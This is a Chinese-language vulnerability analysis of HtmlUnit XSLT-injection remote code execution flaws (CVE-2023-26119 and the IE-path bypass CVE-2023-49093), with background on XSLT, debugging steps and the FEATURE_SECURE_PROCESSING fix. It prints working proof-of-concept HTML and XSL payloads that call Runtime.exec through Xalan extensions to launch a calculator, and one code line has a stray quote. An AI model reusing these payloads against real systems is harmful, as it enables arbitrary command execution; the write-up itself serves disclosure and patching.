



HtmlUnit <3.8.0 存在远程代码执行漏洞（CVE-2023-49093）

- - -

# HtmlUnit <3.8.0 存在远程代码执行漏洞（CVE-2023-49093）

在分析 CVE-2023-26119 漏洞时，发现了修复措施存在不完善的情况。该漏洞是由于 HTMLUnit 在执行 XSL 转换时未对 XSLT 进行安全限制所致。通过查看源代码，发现针对 XSLT 转换存在两种不同的实现方式。一种实现是主流浏览器（如 Chrome、Firefox）使用的，它主要通过 `org.htmlunit.javascript.host.xml.XSLTProcessor` 完成 XSL 转换；另一种实现则是专为 Internet Explorer 设计的，相关代码位于 `org.htmlunit.activex.javascript.msxml.XSLProcessor` 中。作者只修复了针对 Chrome 等浏览器的 XSL 转换实现，但并未对针对 Internet Explorer 的情况进行修复。浏览器的 XSL 转换实现，并未对针对 Internet Explorer 的情况进行修复。

## CVE-2023-26119

HtmlUnit 是一个开源 Java 代码库，用于模拟浏览器行为。在 HtmlUnit 3.0.0 及之前的版本中，由于 XSLTProcessor 类中的 XSL 转换未对外部扩展库进行限制，因此容易受到 XSLT 注入攻击。攻击者可以通过页面的 JavaScript 代码加载包含恶意命令的 XSL 文件，当用户访问包含这些恶意构造的页面时，就会远程执行这些恶意命令。

### 影响范围

HtmlUnit 3.0.0 之前版本

### 漏洞分析

#### XML

XML 指可扩展标记语言（eXtensible Markup Language）。被设计用来传输和存储数据。是一种很像 HTML 的标记语言，但是 XML 的设计宗旨是传输数据，而不是显示数据。他的标签没有被预定义，您需要自行定义标签。

XML 文档第一行以 XML 声明开始，用来表述文档的一些信息

#### XSLT

##### XSL

XSL 指扩展样式表语言（EXtensible Stylesheet Language）, 它是一个 XML 文档的样式表语言。

CSS = HTML 样式表，XSL = XML 样式表

XSL 包括三部分：

-   XSLT - 一种用于转换 XML 文档的语言。
-   XPath - 一种用于在 XML 文档中导航的语言。
-   XSL-FO - 一种用于格式化 XML 文档的语言。

##### XSLT

-   XSLT 用于将一种 XML 文档转换为另外一种 XML 文档，或者可被浏览器识别的其他类型的文档，比如 HTML 和 XHTML。通常，XSLT 是通过把每个 XML 元素转换为 (X)HTML 元素来完成这项工作的。通过 XSLT，您可以向输出文件添加元素和属性，或从输出文件移除元素和属性。您也可重新排列并分类元素，执行测试并决定隐藏或显示哪个元素，等等。
-   如需访问 XSLT 的元素、属性以及特性，我们必须在文档顶端声明 XSLT 命名空间。

`xmlns:xsl="http://www.w3.org/1999/XSL/Transform"`指向了官方的 W3C XSLT 命名空间

例子

```bash
<!DOCTYPE html>
<html>
<head>
  <title>XML to HTML Transformation</title>
  <script>
    function transformXML() {
      var xmlStr = '<?xml version="1.0" encoding="UTF-8"?><bookstore><book><title>Harry Potter</title><author>J.K. Rowling</author></book></bookstore>';
      var xslStr = '<?xml version="1.0" encoding="UTF-8"?><xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform"><xsl:template match="/"><html><body><h2>Book List</h2><xsl:for-each select="bookstore/book"><p><xsl:value-of select="title"/> - <xsl:value-of select="author"/></p></xsl:for-each></body></html></xsl:template></xsl:stylesheet>';

      var parser = new DOMParser();
      var xmlDoc = parser.parseFromString(xmlStr, "text/xml");
      var xslDoc = parser.parseFromString(xslStr, "text/xml");

      if (window.ActiveXObject || "ActiveXObject" in window) {
        // For Internet Explorer
        var result = xmlDoc.transformNode(xslDoc);
        document.getElementById("output").innerHTML = result;
      } else if (document.implementation && document.implementation.hasFeature("XPath", "3.0")) {
        // For other browsers that support XSLTProcessor
        var xsltProcessor = new XSLTProcessor();
        xsltProcessor.importStylesheet(xslDoc);
        var result = xsltProcessor.transformToFragment(xmlDoc, document);
        document.getElementById("output").appendChild(result);
      } else {
        document.getElementById("output").innerHTML = "XSLT transformation not supported by this browser.";
      }
    }
  </script>
</head>
<body>
  <h1>XML to HTML Transformation</h1>
  <button onclick="transformXML()">Transform XML</button>
  <div id="output"></div>
</body>
</html>
```

结果

[](https://xzfile.aliyuncs.com/media/upload/picture/20231203235523-5e407e3a-91f4-1.png)

##### XSLT 的命名空间

-   当在脚本中声明 XSLT 命名空间后，你可以使用该命名空间中定义的元素和属性。
    
-   例如：如果你声明了 XSLT 命名空间为`xmlns:xsl="http://www.w3.org/1999/XSL/Transform"`，那么你可以通过在标记或属性名称中添加前缀 "xsl" 来使用这些元素和属性。
    

##### 在 JAVA 中如何进行 XSLT

```bash
package org.example;
import org.junit.Test;
import javax.xml.transform.Result;
import javax.xml.transform.Source;
import javax.xml.transform.Transformer;
import javax.xml.transform.TransformerFactory;
import javax.xml.transform.stream.StreamResult;
import javax.xml.transform.stream.StreamSource;
import java.util.Objects;

public class App {
    @Test
    public static void main(String[] args) throws IOException {
        try {
            TransformerFactory transformerFactory = TransformerFactory.newInstance();
            Source xslt = new StreamSource("input.xsl");
            Source xml = new StreamSource("input.xml");
            Result output = new StreamResult("output.xml");
            Transformer transformer = transformerFactory.newTransformer(xslt);
            transformer.transform(xml, output);
            System.out.println("转换完成！");
        } catch (Exception e) {
            System.err.println("发生异常：" + e.getMessage());
        }
    }
}
```

以上代码可以进行 XSLT，但是这段代码也会导致漏洞，当 XSL 可控的时候就可能会出现任意命令执行漏洞。要防御此漏洞可以加上代码`transformerFactory.setFeature(XMLConstants.FEATURE_SECURE_PROCESSING, true);`，就可以避免任意命令执行漏洞。

### 漏洞复现

##### 环境

pom.xml

```bash
<dependency>
      <groupId>net.sourceforge.htmlunit</groupId>
      <artifactId>htmlunit</artifactId>
      <version>2.60.0</version>
</dependency>
```

##### poc

poc.java

```bash
package HtmlUnit;

import com.gargoylesoftware.htmlunit.WebClient;
import com.gargoylesoftware.htmlunit.html.HtmlPage;

public class Test {
    public static void main(String[] args) throws Exception {
        try (final WebClient webClient = new WebClient()) {
            // no you have a running browser and you can start doing real things
            // like going to a web page
            final HtmlPage page = webClient.getPage("http://xxx/htmlunit.html");
        }
    }
}
```

htmlunit.html

```bash
<script>
// 创建一个 XML 字符串并加载为 XML 文档
var xmlString = '<?xml version="1.0" encoding="UTF-8"?><s></s>';
var parser = new DOMParser();
var xmlDoc = parser.parseFromString(xmlString, "text/xml");

// 创建 XSL 字符串并加载为 XML 文档
var xslString = `<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:rt="http://xml.apache.org/xalan/java/java.lang.Runtime" xmlns:ob="http://xml.apache.org/xalan/java/java.lang.Object">
   <xsl:template match="/">
     <xsl:variable name="rtobject" select="rt:getRuntime()"/>
     <xsl:variable name="process" select="rt:exec($rtobject,'open -a Calculator')"/>
     <xsl:variable name="processString" select="ob:toString($process)"/>
     <xsl:value-of select="$processString"/>
   </xsl:template>
 </xsl:stylesheet>`;
var xslDoc = parser.parseFromString(xslString, "text/xml");

// 使用 XSLTProcessor 进行转换
var processor = new XSLTProcessor();
processor.importStylesheet(xslDoc);
var resultDocument = processor.transformToDocument(xmlDoc);

</script>
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231203235554-70ed905e-91f4-1.png)

#### XSL 代码分析

##### Xalan

-   Xalan 是一个开源的 XML 处理器，主要用于 XSLT 转换以及 XPath 查询。它最初是由 Apache XML 项目开发的一部分，其中包括了 Xalan-Java 和 Xalan-C++ 两个主要版本。Xalan-Java 是用 Java 语言编写的 XSLT 处理器，能够将 XML 文档转换为其他格式。
    
-   声明了 XSLT 命名空间为`xmlns:rt="http://xml.apache.org/xalan/java/java.lang.Runtime"`，你就可以在 XML 文档中使用 "rt" 前缀来引用这个命名空间中定义的元素和属性。
    
-   下面 Java 调用扩展函数，有关 Java 扩展的三种不同格式的命名空间声明。文中的 poc 是包格式命名空间
    
    -   **创建对象的实例**：XSLT 中并没有默认对象的概念，命名空间声明不能唯一地标识一个类，所以要创建实例。`<xsl:variable name="rtobject" select="rt:getRuntime()"/>`：返回的是当前运行时环境的对象实例。
        
    -   **要在指定实例上调用实例方法**：
        
        -   `<xsl:variable name="process" select="rt:exec($rtobject,'open -a Calculator')"/>`，通过调用 `rt:exec` 函数，XSLT 尝试执行一个外部命令，执行结果将被存储在名为 "process" 的变量中。
            -   `<xsl:variable name="processString" select="ob:toString($process)"/>`XSLT 将结果转换成字符串。

### 修复方案

该漏洞的根本原因在于 HTMLUnit 没有对 XSL 转换进行充分的限制，从而导致了安全问题。具体来说，它没有对 XSLT 的外部连接进行适当的限制。由于 XSL 文件中引用了 Xalan 库，并利用库中函数导致了远程命令执行的漏洞。

针对此问题，作者的修复操作是在 xml/XSLTProcessor.java 文件中新增了一行代码：`transformerFactory.setFeature(XMLConstants.FEATURE_SECURE_PROCESSING, true);`

其中 `FEATURE_SECURE_PROCESSING` 是一个安全属性。设置为 true 后，指示实现在处理 XML 时采取安全措施，包括对外部连接的限制。这样就可以避免因为使用外部引用处理 XML/XSD/XSL 而出现问题。

## CVE-2023-49093

### 影响范围

HtmlUnit 3.8.0 之前版本

### 漏洞复现

Pom.xml

```bash
<dependency>
  <groupId>org.htmlunit</groupId>
  <artifactId>htmlunit</artifactId>
  <version>3.8.0</version>
</dependency>
```

Poc.java（==注意这里的浏览器版本是 BrowserVersion.INTERNET\_EXPLORER==）

```bash
package org.example;
import com.gargoylesoftware.htmlunit.BrowserVersion;
import com.gargoylesoftware.htmlunit.WebClient;
import com.gargoylesoftware.htmlunit.html.HtmlPage;
import org.junit.Test;

import java.io.IOException;

public class App {
    @Test
    public static void main(String[] args) throws IOException {
        try (final WebClient webClient = new WebClient(BrowserVersion.INTERNET_EXPLORER)) {
            // no you have a running browser and you can start doing real things
            // like going to a web page
            final HtmlPage page = "webClient.getPage("http://xxx.xxx.xxx.xxx/poc.html");
        }
    }
}
```

poc.html

```bash
<script>
    var xslt = new ActiveXObject("Msxml2.XSLTemplate.6.0");
    var xslDoc = new ActiveXObject("Msxml2.FreeThreadedDOMDocument.6.0");
    var xslProc;
    xslDoc.async = false;
    xslDoc.loadXML(`<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:rt="http://xml.apache.org/xalan/java/java.lang.Runtime" xmlns:ob="http://xml.apache.org/xalan/java/java.lang.Object">
   <xsl:template match="/">
     <xsl:variable name="rtobject" select="rt:getRuntime()"/>
     <xsl:variable name="process" select="rt:exec($rtobject,'open -a Calculator')"/>
     <xsl:variable name="processString" select="ob:toString($process)"/>
     <span><xsl:value-of select="$processString"/></span>
   </xsl:template>
 </xsl:stylesheet>`)

    if (xslDoc.parseError.errorCode != 0) {
        var myErr = xslDoc.parseError;
        document.write("ParseError: "+myErr.reason);
    } else {
        xslt.stylesheet = xslDoc;
        var xmlDoc = new ActiveXObject("Msxml2.DOMDocument.6.0");
        xmlDoc.async = false;
        xmlDoc.loadXML("<s></s>");
        if (xmlDoc.parseError.errorCode != 0) {
            var myErr = xmlDoc.parseError;
            document.write("Document error: " + myErr.reason);
        } else {
            xslProc = xslt.createProcessor();
            xslProc.input = xmlDoc;
            xslProc.transform();
            document.write(xslProc.output);
        }
    }
</script>
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231203235706-9b81d50a-91f4-1.png)

### 漏洞分析

先在漏洞代码所在的函数加上断点，函数所在位置`org.htmlunit.javascript.host.xml.XSLTProcessor` [](https://xzfile.aliyuncs.com/media/upload/picture/20231203235847-d7e6ca78-91f4-1.png)

然后 debug 代码，执行到第一个断点处时查看 xslSouce，内容为自己的 xsl 文件

[](https://xzfile.aliyuncs.com/media/upload/picture/20231203235629-85d78f1a-91f4-1.png)

然后 debug 到第二个断点，查看 xmlSource，内容为自己的 xml 文件[](https://xzfile.aliyuncs.com/media/upload/picture/20231203235927-ef8f45ec-91f4-1.png)

再执行下一步，打开计算器的命令执行，漏洞复现成功，所以真正有问题的代码就是这几行，修复加入`transformerFactory.setFeature(XMLConstants.FEATURE_SECURE_PROCESSING, true);`即可[](https://xzfile.aliyuncs.com/media/upload/picture/20231203235945-fa6b505a-91f4-1.png)

### 修复方案

为`org.htmlunit.activex.javascript.msxml.XSLProcessor`中的 XSLT 处理器启用 FEATURE\_SECURE\_PROCESSING

## 参考链接

-   [https://xml.apache.org/xalan-j/extensions.html#ext-func-calls](https://xml.apache.org/xalan-j/extensions.html#ext-func-calls)
-   [https://siebene.github.io/2022/12/30/HtmlUnit-RCE/](https://siebene.github.io/2022/12/30/HtmlUnit-RCE/)
-   [https://github.com/HtmlUnit/htmlunit/commit/641325bbc84702dc9800ec7037aec061ce21956b](https://github.com/HtmlUnit/htmlunit/commit/641325bbc84702dc9800ec7037aec061ce21956b)
